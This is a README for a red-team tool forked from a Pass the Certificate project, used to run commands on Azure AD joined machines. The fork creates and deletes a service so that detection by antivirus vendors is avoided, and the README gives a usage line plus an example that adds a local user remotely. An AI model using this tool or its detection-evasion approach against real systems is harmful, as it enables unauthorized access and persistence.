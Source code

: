 A fork of the Pass the Certificate tool by Mor Rubin: https://github.com/morRubin/AzureADJoinedMachinePTC

The original tool invokes remcomsvc which is detected as malicious by almost any vendor.
The tool now simply creates a service with the given command, executes it and deletes the service.
No output will be returned.

### Disclaimer: This tool is intended solely for educational purposes and authorized Red Team engagements conducted with proper permissions. Unauthorized use of this tool on systems without explicit consent may violate local, national, and international laws. Use responsibly and at your own risk.

## Installation
The code is compatible with Python 3.6+
Download the repository from GitHub, install the dependencies and you should be good to go

```
pip3 install impacket minikerberos cryptography==3.1.1 pyasn1
```

## Usage

```
Main.py [-h] --usercert USERCERT --certpass CERTPASS --remoteip
               REMOTEIP --command COMMAND
```

## Example

```
Main.py --usercert "p2pcert.pfx" --certpass Aa123456 --remoteip 192.168.47.192 --command "net user test Aa123456 /add"
```

## License
MIT

## Credits
* [Mor Rubin] for the amazing research and authentication implementation
